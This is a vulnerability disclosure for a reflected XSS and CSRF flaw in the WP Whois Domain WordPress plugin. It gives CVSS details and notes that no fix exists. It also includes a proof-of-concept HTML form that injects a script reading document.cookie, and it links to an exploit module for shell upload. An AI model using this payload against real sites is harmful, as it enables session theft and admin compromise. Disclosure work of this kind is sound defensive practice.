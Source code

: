 ```yaml
---
layout: single
title: WP Whois Domain Reflected XSS
date: 2017-01-14
categories:
  - security
  - websec
  - disclosure
tags:
  - wordpress
  - wp-whois-domain
  - reflected xss
excerpt: Due to a lack of CSRF mitigation and entity encoding in `pages/func-whois.php`, it is possible to execute scripts in the context of an admin user by including a script in the `domain` field, via the query string or a POST field.
---
```

## Homepage
[https://wordpress.org/plugins/wp-whois-domain/](https://wordpress.org/plugins/wp-whois-domain/)

## Overview
Due to a lack of CSRF mitigation and entity encoding in `pages/func-whois.php`, it is possible to execute scripts in the context of an admin user by including a script in the `domain` field, via the query string or a POST field.

## CVSS Score
5.5

## CVSS Vector
[(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:U/RC:C)](https://nvd.nist.gov/cvss.cfm?calculator&version=2&vector=(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:U/RC:C))

## Versions Affected
All versions

## Solution
There is currently no official fix, the plugin has been removed from the WordPress plugin repository until the vendor provides a solution.

## WordPress Exploit Framework Module
[exploit/xss/reflected/wp\_whois\_domain\_reflected\_xss\_shell\_upload](https://github.com/rastating/wordpress-exploit-framework/blob/development/modules/exploit/xss/reflected/wp_whois_domain_reflected_xss_shell_upload.rb)

## Proof of Concept
```xml
<form action="[url of page with the whois form]" method="post">
  <input type="hidden" name="domain" value="&quot;&gt;&lt;script&gt;alert(document.cookie)&lt;/script&gt;">
  <input type="submit" value="Submit">
</form>
```

## WPVDB-ID
[8683](https://wpvulndb.com/vulnerabilities/8683)
